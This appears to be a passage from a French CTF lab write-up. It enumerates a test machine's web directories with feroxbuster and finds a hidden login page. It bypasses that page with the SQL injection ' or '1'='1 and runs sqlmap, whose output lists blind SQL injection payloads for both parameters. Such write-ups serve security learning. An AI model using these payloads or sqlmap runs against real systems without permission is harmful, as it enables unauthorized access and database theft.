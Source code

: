 Les autres ports étant fermés il ne reste que le port 80 qui semble intéressant.

Aucun des dossiers mentionné dans le `robots.txt` n'existe mais `feroxbuster` retrouve différents dossiers présents sur le serveur :

```
301        9l       28w      319c http://192.168.56.99/javascript
301        9l       28w      319c http://192.168.56.99/phpmyadmin
301        9l       28w      324c http://192.168.56.99/phpmyadmin/docs
301        9l       28w      329c http://192.168.56.99/phpmyadmin/docs/html
301        9l       28w      314c http://192.168.56.99/CFIDE
301        9l       28w      316c http://192.168.56.99/website
301        9l       28w      323c http://192.168.56.99/website/images
301        9l       28w      324c http://192.168.56.99/website/scripts
200        1l        2w       10c http://192.168.56.99/status
301        9l       28w      323c http://192.168.56.99/website/styles
403        9l       28w      278c http://192.168.56.99/phpmyadmin/libraries
301        9l       28w      326c http://192.168.56.99/phpmyadmin/themes
```

Dans `CFIDE` on trouve un dossier `Administrator` car le listing est activé. On est alors face à une page web dans laquelle je finis par remarquer le commentaire HTML suivant :

```html
<!-- Please Disable: /login.php this page doesn't exist, disable test login form.-->      
```

Le script en question existe bien et est vulnérable à une injection SQL. En effet si je saisis le nom d'utilisateur admin et le mot de passe `' or '1'='1` le script m'indique que je suis connecté.

Aucun lien n'est présent dans la page, le script a visiblement comme seul intérêt d'être vulnérable. On va se servir de `sqlmap` pour essayer d'extraire de la base des données des informations utiles pour la suite du CTF.

```bash
python sqlmap.py -u "http://192.168.56.99/CFIDE/Administrator/login.php" --dbms mysql --data "uname=admin&pswd=123456" --risk 3 --level 5
```

Les deux paramètres sont vulnérables :

```
sqlmap identified the following injection point(s) with a total of 721 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=-6282' OR 3655=3655-- oYbk&pswd=123456

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=admin' AND (SELECT 8104 FROM (SELECT(SLEEP(5)))DJsB)-- RDqi&pswd=123456

Parameter: pswd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=admin&pswd=-4249' OR 5766=5766-- lBSE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=admin&pswd=123456' AND (SELECT 5948 FROM (SELECT(SLEEP(5)))CLdE)-- eYHt
---
```

